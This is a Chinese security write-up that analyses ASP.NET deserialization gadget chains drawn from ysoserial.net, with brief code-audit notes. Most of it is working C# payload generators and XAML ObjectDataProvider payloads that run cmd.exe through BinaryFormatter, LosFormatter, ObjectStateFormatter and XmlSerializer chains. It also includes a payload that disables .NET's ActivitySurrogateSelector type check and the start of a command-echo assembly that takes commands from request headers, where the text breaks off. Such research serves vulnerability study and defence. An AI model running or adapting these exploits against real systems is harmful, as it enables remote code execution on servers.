

# asp.net反序列化的思考和总结 - 先知社区

asp.net反序列化的思考和总结

* * *

## 前言

这篇文章是在Y4er博客和ysoserial.net项目上，总结出的一些关键东西和我自己的思考，希望可以对大家有所帮助。

## 基础知识

[https://xz.aliyun.com/t/9591](https://xz.aliyun.com/t/9591)

## 反序列化--基于ysoserial的分析

## XMLSerializer

命名空间：[System.Xml.Serialization](https://docs.microsoft.com/zh-cn/dotnet/api/system.xml.serialization?view=net-5.0)，程序集为：System.Xml.XmlSerializer.dll

条件：对象的公共(public)属性和公共字段

几种获取type的方式

```plain
XmlSerializer xmlSerializer = new XmlSerializer(typeof(Person));// typeof()
XmlSerializer xmlSerializer1 = new XmlSerializer(p.GetType());  // 对象的GetType()方法
XmlSerializer xmlSerializer2 = new XmlSerializer(Type.GetType("XmlDeserialization.Person")); //使用命名空间加类名
```

### 反序列化攻击链

在c#中利用Process类实现命令执行的语句

```plain
Process process = new Process();
process.StartInfo.FileName = "cmd.exe";
process.StartInfo.Arguments = "/c " + cmd;
process.Start();
```

对于ObjectDataProvider实现RCE的代码：

（该类可以调用任意类的任意方法）

```plain
ObjectDataProvider o = new ObjectDataProvider();
o.MethodParameters.Add("cmd.exe");
o.MethodParameters.Add("/c calc");
o.MethodName = "Start";
o.ObjectInstance = new Process();
```

利用ExpandedWrapper包装下我们的恶意类，然后在MethodName调用恶意类的恶意方法来执行恶意命令（当然我们可以自己定义一个恶意类然后调用，但是在实际生产环境中，则需要结合ResourceDictionary类进行RCE）

```plain
namespace XmlDeserialization
{
    [XmlRoot]
    public class Person
    {
        [XmlAttribute]
        public string ClassName { get; set; }
        public void Evil(string cmd)
        {
            Process process = new Process();
            process.StartInfo.FileName = "cmd.exe";
            process.StartInfo.Arguments = "/c " + cmd;
            process.Start();
        }
    }

    class Program
    {
        static void Main(string[] args)
        {
            MemoryStream memoryStream = new MemoryStream();
            TextWriter writer = new StreamWriter(memoryStream);
            ExpandedWrapper<Person, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<Person, ObjectDataProvider>();
            expandedWrapper.ProjectedProperty0 = new ObjectDataProvider();
            expandedWrapper.ProjectedProperty0.MethodName = "Evil";
            expandedWrapper.ProjectedProperty0.MethodParameters.Add("calc");
            expandedWrapper.ProjectedProperty0.ObjectInstance = new Person();
            XmlSerializer xml = new XmlSerializer(typeof(ExpandedWrapper<Person, ObjectDataProvider>));
            xml.Serialize(writer, expandedWrapper);
            string result = Encoding.UTF8.GetString(memoryStream.ToArray());
            Console.WriteLine(result);

            memoryStream.Position = 0;
            xml.Deserialize(memoryStream);

            Console.ReadKey();
        }
    }
}
```

#### ObjectDataProvider+ResourceDictionary

**Sink点**：ObjectDataProvider

**调用的类**：ObjectDataProvider + XamlReader + Process

整个链子的思路:

```plain
ObjectDataProvider -> XamlReader.Parse() -> ObjectDataProvider -> System.Diagnostics.Process.Start("cmd.exe","/c calc")
```

对于ResourceDictionary的RCE代码,`XamlReader.Parse()`解析即可触发

```plain
<ResourceDictionary 
                    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
                    xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" 
                    xmlns:b="clr-namespace:System;assembly=mscorlib" 
                    xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <b:String>cmd</b:String>
            <b:String>/c calc</b:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

所以整个的payload:

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102163833-34cfc832-795b-1.jpg)

### 代码审计视角--type可控

1.  初始化时`new XmlSerializer(type)`的type参数，如果type可控，就可以利用ObjectDataProvider调用XamlReader的Parse进行RCE。
    
2.  `xml.Deserialize(memoryStream)`中的反序列化的值是否可控。
    

## BinaryFormatter

命名空间位于`System.Runtime.Serialization.Formatters.Binary`

### 反序列化链

yso中的很多gadget链都是由TextFormattingRunProperties链衍生的

#### TextFormattingRunProperties

限制条件：Microsoft.PowerShell.Editor.dll

```plain
该库是PowerShell的一部分，该PowerShell已预安装在从Windows Server 2008 R2和Windows 7开始的所有Windows版本中。
```

**调用的类** : TextFormattingRunProperties + ObjectDataProvider + Process

**思路**：我们在GetObjectData序列化时给ForegroundBrush字段赋值为`_xaml`的payload，并且将对象类型赋值为TextFormattingRunProperties类。因为在反序列化时触发TextFormattingRunProperties类的构造函数，而构造函数中，调用的`GetObjectFromSerializationInfo`,触发XamlReader.Parse(payload) ，就衔接上了ObjectDataProvider

**Sink关键点**：`XamlReader.Parse`

我们需要的就是传入的payload就是可以被`XamlReader.Parse`解析的ObjectDataProvider的xml

```plain
<?xml version="1.0" encoding="utf-16"?>
<ObjectDataProvider MethodName="Start" IsInitialLoadEnabled="False" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml">
  <ObjectDataProvider.ObjectInstance>
    <sd:Process>
      <sd:Process.StartInfo>
        <sd:ProcessStartInfo Arguments="/c calc" StandardErrorEncoding="{x:Null}" StandardOutputEncoding="{x:Null}" UserName="" Password="{x:Null}" Domain="" LoadUserProfile="False" FileName="cmd" />
      </sd:Process.StartInfo>
    </sd:Process>
  </ObjectDataProvider.ObjectInstance>
</ObjectDataProvider>
```

生成的payload:

```plain
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using Microsoft.VisualStudio.Text.Formatting;
namespace BinaryFormatterSerialize
{
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }

        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string xaml)
        {
            _xaml = xaml;
        }
    }
    class Program
    {
        static void Main(string[] args)
        {
            string xaml_payload = File.ReadAllText(@"C:\Users\ddd\source\repos\xml.txt");
            TextFormattingRunPropertiesMarshal payload = new TextFormattingRunPropertiesMarshal(xaml_payload);

            using (MemoryStream memoryStream = new MemoryStream())
            {
                // 构建formatter
                BinaryFormatter binaryFormatter = new BinaryFormatter();
                binaryFormatter.Serialize(memoryStream, payload);
                memoryStream.Position = 0;
                binaryFormatter.Deserialize(memoryStream);
            }
            Console.ReadKey();
        }
    }
}
```

调试栈：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102104650-1304961e-792a-1.png)

#### PSObject+ObjectDataProvider

**调用的类：**PSObject+ObjectDataProvider

**Sink关键点**：通过一个有参构造方法，链子最后调用了`XamlReader.Parse`方法

思路：在反序列化构造函数中读取CliXml值，最后调用了XamlReader.Parse()进行反序列化触发RCE。所以我们就可以传入ObjectDataProvider的xml值

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102104720-24cbf48c-792a-1.png)

#### DataSet + TextFormattingRunProperties

**调用的类**：DataSet (在 System.Data, System.Data.dll 中)+ TextFormattingRunProperties+ObjectDataProvider

**思路**：反序列化过程调用有参构造函数时，DataSet.Tables\_0字段的byte数组会被自动反序列化（用的是BinaryFormatter），我们可以将TextFormattingRunProperties生成的byte数组赋值给DataSet.Tables\_0字段，然后就可以RCE了。

**Sink关键点**：`binaryFormatter.Deserialize`,一定要找ISerializable接口的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102104801-3cfed9f2-792a-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231102104911-66b8eeae-792a-1.png)

对于DataSet这条链子，触发点在`this.DeserializeDataSetSchema`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105813-a9a2fbaa-792b-1.png)

整个流程：

1.  生成TextFormattingRunProperties的payload转byte数组存放到DataSet.Tables\_0字段
2.  填充DataSet的其他字段满足反序列化条件使其不报错
3.  进入DataSet的反序列化构造函数DeserializeDataSet 该函数自动反序列化其中的Schema和Data
4.  在DeserializeDataSetSchema()中获取DataSet.Tables\_0字段的值进行BinaryFormatter.Deserialize()。

条件就是：依赖于TextFormattingRunProperties。

#### DataSetTypeSpoof+TextFormattingRunProperties

原理和调用的类都跟DataSet一样的，只是对`info.SetType(typeof(System.Data.DataSet))`进行了变形

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102104959-83949366-792a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105024-928c24ec-792a-1.png)

#### DataSetOldBehaviour+ObjectDataProvider

**调用的类**：DataSet+ObjectDataProvider

**思想**：还是调用了DataSet的反序列化构造函数。

**Sink关键点**：找到了`XmlSerializer.Deserialize`去反序列化实现RCE

但是这个链子的触发点在`this.DeserializeDataSetData`,直接调用了`DataSet.ReadXml()`，最后调用了`XmlSerializer.Deserialize`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105042-9d07f52c-792a-1.png)

#### DataSetOldBehaviourFromFileGenerator+ObjectDataProvider

跟上面一样的，只是换成了一个从本地文件读一个XML

#### ToolboxItemContainer+TextFormattingRunProperties

**调用的类**：ToolboxItemContainer+TextFormattingRunProperties+ObjectDataProvider

**思路**：ToolboxItemSerializer的反序列化构造函数，`Stream`字段的值直接利用了BinaryFormatter进行反序列化，所以可以使用TextFormattingRunProperties填充byte数组，达到rce

**Sink关键点**：\_formatter.Deserialize()

传入Stream中的是字节，所以我们可以利用TypeConfuseDelegate的payload字节去替换TextFormattingRunProperties的payload字节。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105107-abe01a16-792a-1.png)

payload：

```plain
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Windows.Data;
using System.Windows.Markup;

namespace NancySerialize
{
    class Program
    {
        static void Main(string[] args)
        {
            BinaryFormatter binaryFormatter = new BinaryFormatter();
            byte[] vs;
            using (MemoryStream memory = new MemoryStream())
            {
                binaryFormatter.Serialize(memory, new TextFormattingRunPropertiesMarshal("calc"));
                vs = memory.ToArray();
            }
            ToolboxItemSerializerMarshal toolBox = new ToolboxItemSerializerMarshal(vs);
            using (MemoryStream memoryStream = new MemoryStream())
            {
                binaryFormatter.Serialize(memoryStream, toolBox);
                memoryStream.Position = 0;
                binaryFormatter.Deserialize(memoryStream);
            }
        }
    }
    [Serializable]
    public class ToolboxItemSerializerMarshal : ISerializable
    {
        public ToolboxItemSerializerMarshal(byte[] payload)
        {
            Payload = payload;
        }

        private byte[] Payload { get; }
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(Type.GetType("System.Drawing.Design.ToolboxItemContainer+ToolboxItemSerializer, System.Drawing.Design, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"));
            info.AddValue("AssemblyName", new AssemblyName());
            info.AddValue("Stream", Payload);
        }
    }
    //生成TextFormattingRunProperties的字节通用方式
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;

            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```

#### AxHostState+TextFormattingRunProperties

**调用的类：**State+TextFormattingRunProperties+ObjectDataProvider

**Sink关键点**：`BinaryFormatter.Deserialize`

**思路**：在System.Windows.Forms.AxHost.State类的反序列化构造函数中，调用了this.propBag.Read，PropertyBagBinary字段的值会被BinaryFormatter形式反序列化

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105129-b91cbef0-792a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105145-c269d880-792a-1.png)

### 代码审计视角

BinaryFormatter不需要type，所以很容易出现反序列化攻击

## LosFormatter和ObjectStateFormatter

LosFormatter一般用于序列化存储视图流状态，多用于Web窗体，如ViewState。LosFormatter封装在System.Web.dll中，命名空间为System.Web.UI，使用LosFormatter反序列化不信任的数据会造成RCE。

ObjectStateFormatter同样用于序列化和反序列化表示对象状态的对象图

### 反序列化链

除了ObjectDataProvider不支持LosFormatter以外，其他的gadget都支持。

底层：首先LosFormatter底层ObjectStatesFormatter会调用binaryformatter序列化和反序列化自身object字段

#### ClaimsIdentity+TextFormattingRunProperties+ObjectDataProvider

**调用的类**：ClaimsIdentity+TextFormattingRunProperties+ObjectDataProvider

**Sink关键点**：寻找我们的`new BinaryFormatter().Deserialize`的位置

**思路**：

利用1：利用ClaimsIdentity类自身的m\_bootstrapContext字段是object类型，且没有标记NonSerialized，将我们的TextFormattingRunProperties对象赋值给这个字段，当反序列化的时候，LosFormatter底层ObjectStatesFormatter会调用binaryformatter序列化和反序列化自身object字段（Object类型都是Token\_BinarySerialized,没有对应的类型转换器,所以就会默认调用一个BinaryFormatter去）

例子：

```plain
namespace LosFormatterDeserialize
{
    class Program
    {
        static void Main(string[] args)
        {

            LosFormatter losFormatter = new LosFormatter();
            using (MemoryStream memory = new MemoryStream())
            {
                TextFormattingRunPropertiesMarshal textFormattingRunPropertiesMarshal = new TextFormattingRunPropertiesMarshal();
                My my = new My();
                my.o = textFormattingRunPropertiesMarshal;
                losFormatter.Serialize(memory,my);
                memory.Position = 0;
                losFormatter.Deserialize(memory);
            }
            Console.ReadKey();
        }
    }
    [Serializable]
    public class My
    {
        public object o;
    }

    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;

            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```

利用2(ysoserial的写法)：将我们的TextFormattingRunProperties的payload，赋值到m\_serializedClaims的字段，类型为String，我们再利用BinaryFormatter去反序列化ClaimsIdentity类时，会调用OnDeserializedMethod方法，然后再调用DeserializeClaims方法中，就再次对我们的m\_serializedClaims进行反序列化（有点二次反序列化的味道）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105208-d02c46c4-792a-1.png)

#### WindowsIdentity+TextFormattingRunProperties

**调用的类**：WindowsIdentity+ClaimsIdentity+TextFormattingRunProperties+ObjectDataProvider

**Sink关键点**：还是一样的，去寻找`new BinaryFormatter().Deserialize`

**思路**：WindowsIdentity继承自ClaimsIdentity，ISerializable，在反序列化时会调用其构造函数，同时也调用了父类的反序列化构造函数，三个字段`actor`和`bootstrapContextKey`均可以进行binaryformatter反序列化。所以在info中设置key为System.Security.ClaimsIdentity.actor或bootstrapContext或claims，值为TextFormattingRunProperties的Base64 payload，即可触发RCE

流程截图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105228-dbf89d54-792a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105254-eb828b2c-792a-1.png)

在`DeserializeClaims`方法中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105311-f597922e-792a-1.png)

payload:

```plain
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Security.Principal;
using System.Web.UI;
using System.Windows.Data;
using System.Windows.Markup;

namespace LosFormatterDeserialize
{
    class Program
    {
        static void Main(string[] args)
        {

            BinaryFormatter b = new LosFormatter();
            BinaryFormatter bf = new BinaryFormatter();
            using (MemoryStream memory = new MemoryStream())
            {
                TextFormattingRunPropertiesMarshal textFormattingRunPropertiesMarshal = new TextFormattingRunPropertiesMarshal();
                bf.Serialize(memory, textFormattingRunPropertiesMarshal);
                string b64payload = Convert.ToBase64String(memory.ToArray());
                WindowsIdentityIdentityMarshal windowsIdentityIdentityMarshal = new WindowsIdentityIdentityMarshal(b64payload);

                memory.Position = 0;
                b.Serialize(memory, windowsIdentityIdentityMarshal);
                memory.Position = 0;
                b.Deserialize(memory);

            }
            Console.ReadKey();
        }
    }
    [Serializable]
    public class WindowsIdentityIdentityMarshal : ISerializable
    {
        public WindowsIdentityIdentityMarshal(string b64payload)
        {
            B64Payload = b64payload;
        }

        private string B64Payload { get; }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(WindowsIdentity));
            info.AddValue("System.Security.ClaimsIdentity.actor", B64Payload);
            info.AddValue("System.Security.ClaimsIdentity.bootstrapContext", B64Payload);
            info.AddValue("System.Security.ClaimsIdentity.claims", B64Payload);
        }
    }
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;

            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```

#### WindowsClaimsIdentity+TextFormattingRunProperties

**思路**：原理一样，这个通过`_actor`字段，在反序列化构造函数中，会反序列化其`_actor`字段

限制：该类所在的命名空间不在GAC([Global Assembly Cache](https://docs.microsoft.com/en-us/dotnet/framework/app-domains/gac))中，限制较大。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105341-07c53668-792b-1.png)

payload:

```plain
public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(WindowsClaimsIdentity));
            info.AddValue("_actor", B64Payload);
            info.AddValue("m_userToken", new IntPtr(0));
            info.AddValue("_label", null);
            info.AddValue("_nameClaimType", null);
            info.AddValue("_roleClaimType", null);
        }
```

#### RolePrincipal+TextFormattingRunProperties

**调用的类**：RolePrincipal（继承了ClaimsPrincipal类）+ClaimsPrincipal+TextFormattingRunProperties+ObjectDataProvider

**Sink关键点**：binaryFormatter.Deserialize

**思路**：RolePrincipal类反序列化构造函数，调用父类的Identities字段，而父类ClaimsPrincipal在反序列化构造时将`info.GetString("System.Security.ClaimsPrincipal.Identities")`取出的值，base64转byte数组之后，直接BinaryFormatter反序列化造成RCE。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105401-1382350a-792b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105413-1aa8751a-792b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105425-21b63fc2-792b-1.png)

payload:

```plain
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Generic;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Linq;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Security.Claims;
using System.Text;
using System.Threading.Tasks;
using System.Web.UI;
using System.Windows.Data;
using System.Windows.Markup;

namespace ObjectStateFormatterSerialize
{
    class Program
    {
        static void Main(string[] args)
        {
            TextFormattingRunPropertiesMarshal calc = new TextFormattingRunPropertiesMarshal("calc");
            string b64payload;
            using (MemoryStream m = new MemoryStream())
            {
                BinaryFormatter binaryFormatter = new BinaryFormatter();
                binaryFormatter.Serialize(m, calc);
                b64payload = Convert.ToBase64String(m.ToArray());
            }
            RolePrincipalMarshal rolePrincipalMarshal = new RolePrincipalMarshal(b64payload);
            ObjectStateFormatter objectStateFormatter = new ObjectStateFormatter();
            string p = objectStateFormatter.Serialize(rolePrincipalMarshal);
            objectStateFormatter.Deserialize(p);
        }


    }
    [Serializable]
    public class RolePrincipalMarshal : ISerializable
    {
        public RolePrincipalMarshal(string b64payload)
        {
            B64Payload = b64payload;
        }

        private string B64Payload { get; }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(System.Web.Security.RolePrincipal));
            info.AddValue("System.Security.ClaimsPrincipal.Identities", B64Payload);
        }
    }
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;
            _xaml = XamlWriter.Save(odp);
        }
    }
}
```

#### WindowsPrincipal+WindowsIdentity+ClaimsIdentity+TextFormattingRunProperties

**调用的类**：WindowsPrincipal+WindowsIdentity+ClaimsIdentity+TextFormattingRunProperties+ObjectDataProvider

**思路**：WindowsPrincipal类字段m\_identity类型为WindowsIdentity，当反序列化时，WindowsIdentity将被调用构造函数，就是上面七年的链子再次使用

payload：

```plain
class Program
    {
        static void Main(string[] args)
        {
            WindowsIdentity currentWI = WindowsIdentity.GetCurrent();
            currentWI.Actor = new ClaimsIdentity();
            currentWI.Actor.BootstrapContext = new TextFormattingRunPropertiesMarshal("calc");
            WindowsPrincipalMarshal obj = new WindowsPrincipalMarshal();
            obj.wi = currentWI;
            string v = new ObjectStateFormatter().Serialize(obj);
            new ObjectStateFormatter().Deserialize(v);
        }


    }
    [Serializable]
    public class WindowsPrincipalMarshal : ISerializable
    {
        public WindowsPrincipalMarshal() { }
        public WindowsIdentity wi { get; set; }
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(WindowsPrincipal));
            info.AddValue("m_identity", wi);
        }
    }
```

#### SessionSecurityToken+TextFormattingRunProperties

**调用的类**：SessionSecurityToken+TextFormattingRunProperties+ObjectDataProvider

**Sink关键点**：还是找到了`binaryFormatter`的位置

**思路**：SessionSecurityToken类反序列化构造函数时，调用了ReadIdentity方法，然后在该方法中，将BootstrapToken标签中的内容base64解码通过binaryformatter反序列化。

`ReadIdentity方法`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105452-3230c0e8-792b-1.png)

payload：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105504-38fcc174-792b-1.png)

#### SessionViewStateHistoryItem+TextFormattingRunProperties

**调用的类**：SessionViewState+SessionViewStateHistoryItem+TextFormattingRunProperties+ObjectDataProvider\\

**Sink关键**：找到了Binary.Deserialize一样的new LosFormatter().Deserialize

**思路**：SessionViewState的内部类SessionViewStateHistoryItem的反序列化构造函数，直接对序列化值的s参数值，进行LosFormatter反序列化。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105523-44549088-792b-1.png)

### 代码审计视角

除了关注反序列化方法传入的参数值，还需要注意使用LosFormatter和ObjectStatesFormatter可能会造成二次反序列化，要关注object类型的字段

## SurrogateSelector相关的链子-主要为了加载自己的恶意代码打回显

### 反序列化链

#### ActivitySurrogateSelector

利用了代理选择器，代理选择器的用法在于是原本不能被序列化的类可以用来序列化和反序列化

**整个流程**：加载自己的恶意代码

1.  从ActivitySurrogateSelector+ObjectSurrogate序列化一些原本不能被序列化的类，利用了LINQ
2.  LINQ替换其委托为Assembly.Load加载自己的恶意代码并创建实例
3.  通过IEnumerable -> PagedDataSource -> ICollectionICollection -> AggregateDictionary -> IDictionary -> DesignerVerb -> ToString
4.  通过HashTable键值重复触发报错进入ToString
5.  然后用`System.Windows.Forms.AxHost.State`包装一下，try catch处理异常。

#### ActivitySurrogateSelectorFromFile

这个其实也是ActivitySurrogateSelector利用链，只不过可以执行自己编写的程序集（只是可以加载dll文件形式）。下面的代码是接收参数并动态编译读取字节码存入自身assemblyBytes字段。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102105535-4bd60e7c-792b-1.png)

#### ActivitySurrogateDisableTypeCheck+TextFormattingRunProperties

在dotnet4.8中，微软修复了对ActivitySurrogateSelector类的滥用

思路：用TextFormattingRunProperties关闭DisableActivitySurrogateSelectorTypeCheck类型检查，然后再反序列化实现RCE

```plain
<ResourceDictionary
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:s="clr-namespace:System;assembly=mscorlib"
    xmlns:c="clr-namespace:System.Configuration;assembly=System.Configuration"
    xmlns:r="clr-namespace:System.Reflection;assembly=mscorlib">
    <ObjectDataProvider x:Key="type" ObjectType="{x:Type s:Type}" MethodName="GetType">
        <ObjectDataProvider.MethodParameters>
            <s:String>System.Workflow.ComponentModel.AppSettings, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="field" ObjectInstance="{StaticResource type}" MethodName="GetField">
        <ObjectDataProvider.MethodParameters>
            <s:String>disableActivitySurrogateSelectorTypeCheck</s:String>
            <r:BindingFlags>40</r:BindingFlags>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="set" ObjectInstance="{StaticResource field}" MethodName="SetValue">
        <ObjectDataProvider.MethodParameters>
            <s:Object/>
            <s:Boolean>true</s:Boolean>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="setMethod" ObjectInstance="{x:Static c:ConfigurationManager.AppSettings}" MethodName ="Set">
        <ObjectDataProvider.MethodParameters>
            <s:String>microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck</s:String>
            <s:String>true</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

#### 回显

写一个自定义的程序集，利用header中的cmd参数值执行命令，同时有回显

```plain
class E
{
    public E()
    {
        System.Web.HttpContext context = System.Web.HttpContext.Current;
